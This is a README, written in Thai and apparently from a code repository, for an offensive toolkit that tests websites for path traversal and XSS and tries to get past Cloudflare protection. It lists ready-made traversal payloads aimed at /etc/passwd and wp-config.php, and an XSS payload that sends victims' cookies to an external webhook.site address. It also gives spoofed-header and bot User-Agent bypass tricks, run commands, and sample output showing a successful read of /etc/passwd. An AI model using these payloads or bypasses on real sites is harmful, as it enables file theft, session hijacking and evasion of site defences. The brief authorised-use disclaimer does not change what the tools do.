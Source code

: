 # Payload Analyzer & Cloudflare Bypass Tools

เครื่องมือวิเคราะห์และทดสอบ payload สำหรับการโจมตีแบบ Path Traversal และ XSS พร้อมเทคนิคการ bypass Cloudflare protection

## คุณสมบัติ

### Payload Analyzer (`payload_analyzer.py`)
- ทดสอบ Path Traversal payloads หลากหลายรูปแบบ
- ทดสอบ XSS payloads พร้อม cookie stealing
- เทคนิคการ bypass protection ต่างๆ
- HTTP Parameter Pollution
- บันทึกผลลัพธ์เป็น JSON

### Cloudflare Bypass (`cloudflare_bypass.py`)
- เทคนิคการ bypass Cloudflare แบบเฉพาะเจาะจง
- User-Agent rotation (Bot, Mobile, Desktop)
- IP spoofing headers
- HTTP method manipulation
- Content-Type manipulation

## การติดตั้ง

```bash
# ติดตั้ง dependencies
pip install -r requirements.txt

# หรือติดตั้งด้วย pip
pip install requests urllib3
```

## วิธีการใช้งาน

### 1. Payload Analyzer

```bash
# ทดสอบทั้งหมด
python payload_analyzer.py https://example.com

# ทดสอบเฉพาะ Path Traversal
python payload_analyzer.py https://example.com --path-traversal-only

# ทดสอบเฉพาะ XSS
python payload_analyzer.py https://example.com --xss-only

# บันทึกผลลัพธ์เป็นไฟล์
python payload_analyzer.py https://example.com -o results.json

# ตั้งค่า timeout
python payload_analyzer.py https://example.com -t 15
```

### 2. Cloudflare Bypass

```bash
# ทดสอบ bypass ด้วย payload เฉพาะ
python cloudflare_bypass.py https://example.com "../../../../../../etc/passwd"

# บันทึกผลลัพธ์
python cloudflare_bypass.py https://example.com "../../../../../../etc/passwd" -o bypass_results.json
```

## Payloads ที่รองรับ

### Path Traversal
- Basic: `../../../../../../etc/passwd`
- URL encoded: `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd`
- Double encoding: `%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fwp-config.php`
- Unicode bypass: `..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afetc%c0%afpasswd`
- Null byte injection: `../../../../../../etc/passwd%00`

### XSS Payloads
- Basic: `<script>alert('XSS')</script>`
- Cookie stealing: `<script>var a='https://webhook.site/128fa6c2-fe85-4a6c-b522-0346f6aae885';document.location=a + '/?c=' + encodeURIComponent(document.cookie);</script>`
- URL encoded: `%3Cscript%3Ealert('XSS')%3C/script%3E`
- Event handlers: `' onmouseover='alert(1)`

### Bypass Techniques
- Bot User-Agents (Googlebot, Bingbot, Baiduspider)
- Mobile User-Agents
- IP spoofing headers (X-Forwarded-For, X-Real-IP, CF-Connecting-IP)
- Language headers manipulation
- HTTP method manipulation (POST, PUT)
- Content-Type manipulation (JSON, XML)

## ตัวอย่างผลลัพธ์

### การทดสอบ Path Traversal
```
[+] ทดสอบ Path Traversal payloads...
[+] Potential success: https://example.com/index.php?page=../../../../../../etc/passwd
    Status: 200, Length: 1024
```

### การ bypass Cloudflare
```
[+] ทดสอบ Cloudflare bypass สำหรับ payload: ../../../../../../etc/passwd
  [-] ทดสอบ: Google Bot
    [+] สำเร็จ! https://example.com/index.php?page=../../../../../../etc/passwd
        Status: 200, Length: 1024
```

## ข้อควรระวัง

⚠️ **คำเตือน**: เครื่องมือนี้มีวัตถุประสงค์เพื่อการทดสอบความปลอดภัยเท่านั้น

- ใช้เฉพาะกับระบบที่คุณได้รับอนุญาตให้ทดสอบ
- ไม่ใช้กับระบบที่ไม่ได้เป็นเจ้าของหรือได้รับอนุญาต
- ปฏิบัติตามกฎหมายและข้อกำหนดที่เกี่ยวข้อง
- ใช้อย่างรับผิดชอบและมีจริยธรรม

## การวิเคราะห์ผลลัพธ์

### ไฟล์ JSON Output
```json
{
  "target_url": "https://example.com",
  "timestamp": "2024-01-01 12:00:00",
  "path_traversal": [
    {
      "payload": "../../../../../../etc/passwd",
      "url": "https://example.com/index.php?page=../../../../../../etc/passwd",
      "status_code": 200,
      "response_length": 1024,
      "is_blocked": false,
      "response_preview": "root:x:0:0:root:/root:/bin/bash..."
    }
  ],
  "xss": [...],
  "bypass_techniques": [...],
  "parameter_pollution": [...]
}
```

## การแก้ไขปัญหา

### ปัญหาที่พบบ่อย

1. **Connection timeout**
   - เพิ่มค่า timeout: `-t 30`
   - ตรวจสอบการเชื่อมต่ออินเทอร์เน็ต

2. **Rate limiting**
   - เครื่องมือมี delay อัตโนมัติ
   - ลดความถี่ในการทดสอบ

3. **Cloudflare blocking**
   - ใช้ `cloudflare_bypass.py` สำหรับเทคนิคเฉพาะ
   - เปลี่ยน User-Agent และ headers

## การพัฒนาต่อ

- เพิ่มเทคนิคการ bypass ใหม่
- รองรับ proxy และ VPN
- เพิ่มการทดสอบ SQL Injection
- รองรับการทดสอบแบบ concurrent

## License

MIT License - ใช้สำหรับการศึกษาและการทดสอบความปลอดภัยเท่านั้น